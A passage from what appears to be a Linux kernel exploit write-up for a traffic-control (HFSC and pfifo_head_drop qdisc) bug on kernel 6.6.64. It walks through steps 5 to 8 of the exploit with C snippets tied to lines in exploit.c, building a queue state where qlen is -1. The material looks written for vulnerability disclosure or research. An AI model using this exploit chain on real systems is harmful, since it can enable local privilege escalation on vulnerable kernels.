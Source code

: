 - After step4, we have the following things:
	1. Qdisc_A->q.qlen == -1.
	2. Currently Qdisc_A has no packet in the queue.

Step5: Create class_A object [[exploit.c#L992]](../exploit/lts-6.6.64/exploit.c#L992)
```c
struct tc_service_curve rsc_A = { .m1 = 1 };
create_hfsc_class(route_socket, ifindex, qdisc_A_handle, classid_A, &rsc_A, NULL, NULL);
```

- After step5, we have the following things:
	1. class_A object(classid: classid_A, type: `hfsc_class`, flags: `HFSC_RSC`).

Step6: Create Qdisc_B [[exploit.c#L994]](../exploit/lts-6.6.64/exploit.c#L994)
```c
struct tc_hfsc_qopt hfsc_qopt_B = { .defcls = 0 };
create_hfsc_qdisc(route_socket, ifindex, classid_A, qdisc_B_handle, &hfsc_qopt_B);
```
- After step6, we have the following things:
	1. Qdisc_B(parent: Qdisc_A, handle: qdisc_B_handle, type: `hfsc`).
	2. Same as step1, Qdisc_B will have its own root class.
	3. `defcls` is set to 0 will lead to Qdisc_B route enqueued packet to qdisc linked with its root class.
	4. Qdisc_B is linked with class_A object(classid: classid_A).

Step7: Create Qdisc_C [[exploit.c#L995]](../exploit/lts-6.6.64/exploit.c#L995)
```c
create_pfifo_head_drop_qdisc(
	route_socket,
	ifindex,
	qdisc_B_handle,
	qdisc_C_handle,
	&pfifo_head_drop_qopt_C
);
```

- After step7, we have the following things:
	1. Qdisc_C(parent: Qdisc_B, handle: qdisc_C_handle, type: `pfifo_head_drop`).
	2. Qdisc_C has `sch->limit == 0`.
	3. Qdisc_C is linked with root class of Qdisc_B.

- Step8: Modify Qdisc_A route [[exploit.c#L1003]](../exploit/lts-6.6.64/exploit.c#L1003)
```c
change_hfsc_qdisc_route(route_socket, ifindex, TC_H_ROOT, qdisc_A_handle, classid_A);
```

```c
void change_hfsc_qdisc_route(
	struct mnl_socket *route_socket,
	int ifindex,
	u32 tcm_parent,
	u32 tcm_handle,
	u32 route_to_classid
)
{
	struct tc_hfsc_qopt hfsc_qopt = { .defcls = route_to_classid };
	change_hfsc_qdisc(route_socket, ifindex, tcm_parent, tcm_handle, &hfsc_qopt);
}
```
